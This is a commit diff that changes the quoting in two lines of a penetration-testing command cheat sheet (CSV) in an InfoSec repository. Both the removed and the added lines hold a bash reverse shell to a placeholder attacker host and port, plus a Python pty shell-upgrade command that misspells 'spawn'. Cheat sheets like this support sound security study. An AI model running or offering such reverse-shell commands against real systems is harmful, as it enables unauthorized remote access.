

Before and after one commit to HarshitKhurana/InfoSec, a CSV file: SimpleTools|Commands.csv, drawn as a sheet.

Commit message:
single quote for csv beautifying

```diff
--- a/SimpleTools|Commands.csv
+++ b/SimpleTools|Commands.csv
@@ -11,3 +11,3 @@ LinEnum.sh      ,:, Linux enumeration scripts
 gdb->list funcitons,:, To list all functions used in a binary
-bash -c " bash -i </dev/tcp/AttackerIp/AttackerPort 2>&1 >&0",:, Reverse shell on attacker machine using bash
-python3 -c "import pty;pty.spwan('/bin/bash')",:, Gives a shell/terminal with some pre-built features
+bash -c 'bash -i </dev/tcp/AttackerIp/AttackerPort 2>&1 >&0' ,:,  Reverse shell on attacker machine using bash
+python3 -c 'import pty;pty.spwan("/bin/bash")' ,:, Gives a shell/terminal with some pre-built features, tab completion etc
```
